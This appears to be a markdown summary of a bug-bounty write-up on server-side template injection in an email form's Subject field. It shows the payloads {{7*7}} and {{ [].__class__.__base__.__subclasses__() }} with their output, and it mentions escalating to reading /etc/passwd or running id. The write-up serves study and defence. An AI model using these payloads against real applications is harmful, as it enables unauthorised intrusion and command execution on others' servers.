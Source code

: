 * He used Payload -> 
```
{{7*7}}

``` 
in Title and Description field and click on send email buttion.

* He got email as **"49"** in Subject and **"{{7*7}}"** as Description. That mean Subject field is vulnerable to Template Injection

![](https://miro.medium.com/max/1111/1*DPLFosKmDKcxqKSkw9J2Zw.png)

<br>

* 
```
{{7 * 7}}
``` 
-> what this doing is evaluating python code inside curly brackets

* Now, he tried another payload to get list of sub classes of object class

```
{{ [].__class__.__base__.__subclasses__() }}

```
<br>
Response He got like this -><br>

![](https://miro.medium.com/max/1509/1*k__m6Ah1EvCEmDL-18aecQ.png)

<br><br>

* Now, the best part is Author explain the code above he used ->

```
1. []  
This is used to create list in Python

2. [].__class__
<type 'list'>   #return class of list

List is sub class of “object” class.

3. Access sub classes of object class .

[].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>.....

This payload gives us a list of all sub classes “object” class.

```
<br><br>
* Now to make this vulnerability to P1 he need to provide POC of using commands like '/etc/passwd' , 'id', 'whoami' etc
